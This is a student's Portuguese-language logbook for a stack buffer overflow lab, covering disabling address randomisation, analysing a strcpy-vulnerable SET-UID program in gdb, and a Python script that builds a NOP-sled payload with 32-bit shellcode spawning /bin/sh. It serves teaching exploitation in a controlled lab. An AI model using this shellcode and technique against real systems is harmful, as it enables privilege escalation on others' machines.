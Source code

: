 # Trabalho realizado na Semana #5

## Configuração básica

- Como sugerido executámos os seguintes comandos de forma a criar um ambiente, onde a execução do ataque seja mais fácil, após retirar as contramedidas da alocação de espaço aleatório das posições iniciais dos registos da stack e da heap. Para além disso, como a vitima do nosso programa é um progama SET-UID executamos o segundo comando.

```bash
$ sudo sysctl -w kernel.randomize_va_space=0

$ sudo ln -sf /bin/zsh /bin/sh
```


## Tarefa 1 : Getting Familiar with Shellcode

![Task1_Steps](resources/LOGBOOK5/task1.png)

## Tarefa 2: Understanding the Vulnerable Program

- Nesta segunda tarefa, entendemos que o programa apresentado em stack.c é de facto, vulnerável a ataques buffer overflow, uma vez que neste programa a função `bof` pretende copiar através do comando `strcpy`,que não verifica os limites do tamanho do buffer, o argumento `str`, sendo este um array com um máximo de 517 caracteres, para a variável `buffer`, tendo o espaço de 100 caracteres, lido apartir de um ficheiro `badfile`. Caso a váriavel `str` tenha caracteres a mais que `buffer`, ocorre o erro de Segmentation Fault.

![Task2_MakefileChanges](resources/LOGBOOK5/task2Makefile.png)

## Tarefa 3: Launching Attack on 32-bit Program (Level 1)

### Investigação

Primeiramente criamos o ficheiro badfile, que será utilizado para guardar os conteúdos que causarão o buffer overflow ???

![Tarefa 3 create badfile](resources/LOGBOOK5/task3badfile.png)

De seguida, compilamos o ficheiro stack-L1.c e executamos o gdb deste ficheiro.

![Tarefa 3 Compilação + gdb](resources/LOGBOOK5/task3Compilation.png)

Recorrendo ao gdb, começamos por criar um breakpoint na função bof de forma a que o programa pare nesta função, visto que é onde está presente o problema de buffer overflow. De seguida, analisamos as posições em memória de `ebp` e do `buffer` e, por fim, calculamos a diferença entre estes, de forma a perceber o quanto distam.

![Tarefa 3 find addresses](resources/LOGBOOK5/task3findaddress.png)

### Criar os ataques

```python
#!/usr/bin/python3
import sys

# Shellcode 32-bit
shellcode= (
 "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80"   
).encode('latin-1')

# Encher o conteúdo com NOP's
# Salto não necessita de ser preciso, pode ser feito para posições anteriores à da localização exata do código malicioso
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Por o Shellcode algures na Stack
# Como o restantes locais reescritos pelo buffer estarão com o valor da instrução NOP, torna-se mais fácil por o Shellcode no final do payload e apontar o return adress para algures nesse espaço
start = 517 - len(shellcode)                
content[start:start + len(shellcode)] = shellcode


# 0xFFFFCB58 -> posição do $ebp quando debugging
# 200 -> salto para suportar aumento do valor dos registos quando executado normalmente
ret    = 0xFFFFCB58 + 200         

# 124 -> Distância entre buffer e ebp
# 4 -> Tamanho do ebp (return address encontra-se depois)
offset = 124 + 4 

L = 4     # Utilizar 4 para registos de 32-bits e 8 para registos de 64-bit
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Escrever o conteúdo no ficheiro
with open('badfile', 'wb') as f:
  f.write(content)
```

Para a criação do ataque tivemos de pensar em alguns valores, nomeadamente:

- `shellcode`: Para este, usamos o valor previamente mostrado na ficha para um sistema de 32 bits, visto que `L`, determina o tipo de sistema e como tem valor 4, sabemos que estamos perante um sistema de 32 bits.
-  `start`: o shellcode, o código a ser executado, foi colocado no final do payload a ser escrito. Optámos por fazer desta forma uma vez que, como o restante espaço do buffer será preenchido com `NOP` operators (exceto a parte com o return address), independentemente do local escrito no return address (considerando que este aponta para uma localização entre o return address e o final da payload) o shellcode seria executado. 

- `ret`: Este valor foi definido, tendo em conta o valor do `&ebp` descoberto durante o debugging, ao qual somamos 200, de forma a apontar algures entre o return adress e o final do payload. 

- `offset`: Neste caso, o valor escolhido é a diferença entre os espaços de memória do ínicio do buffer e o return address. Como a localização do return address é logo após o `ebp`, bastou adicionar o tamanho deste (4 bytes) ao seu offset do ínicio do buffer (obtido durante o debugging)




Para chegar a este valores recorremos ao livro referido na secção Reading and videos 

![Stack GDB](resources/LOGBOOK5/stackGDB.png)
![Stack normal](resources/LOGBOOK5/stackNormal.png)
![Stack afetada](resources/LOGBOOK5/stackafetada.png)

Após a criação do ficheiro exploit exxecutámo-lo de forma criar os conteúdos dentro do ficheiro badfile

